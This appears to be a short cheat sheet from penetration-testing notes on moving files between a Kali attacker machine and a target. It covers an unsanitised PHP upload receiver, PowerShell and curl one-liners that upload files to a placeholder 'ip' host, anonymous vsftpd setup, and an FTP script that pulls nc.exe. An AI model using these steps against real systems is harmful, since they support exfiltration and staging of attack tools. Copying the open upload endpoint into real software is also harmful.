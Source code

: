 ## Upload files PHP Server

Kali Machine

``` php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile= $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Client

PowerShell

``` bash
(New-Object System.Net.WebClient).UploadFile('http://ip/upload.php', 'test.txt')
```

curl

``` bash
curl -F "file=@nc.cmd" http://ip/upload.php
```

## FTP Services

### FTP Server

Install

``` bash
sudo apt-get install vsftpd
sudo service vsftpd start
```

Anonymous access `/etc/vsftpd.conf`

``` txt
anonymous_enable=YES
```

### Pure-FTPd

=== "Client"

	ftp.txt

	``` bash
	open ip 21
	USER hades
	passwd
	bin
	GET nc.exe
	quit
	```
